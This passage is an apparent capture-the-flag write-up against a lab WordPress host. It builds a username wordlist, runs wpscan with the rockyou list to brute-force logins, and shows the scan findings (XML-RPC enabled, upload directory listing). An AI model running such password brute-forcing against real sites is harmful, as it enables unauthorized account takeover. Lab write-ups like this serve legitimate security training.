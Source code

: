we use these users to gerenate a wordlist and use wpscan to brute-force

```bash
$ >.. nano user.txt
GNU nano 7.2                               users.txt                                        
bjoel
kwheel
karen wheeler
karen
wheeler
billy joel
billy
joel
```

```bash
$ >.. wpscan --url http://10.10.255.89 -U users.txt -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.24
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]n
Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://10.10.255.89/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.255.89/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.255.89/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.10.255.89/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

```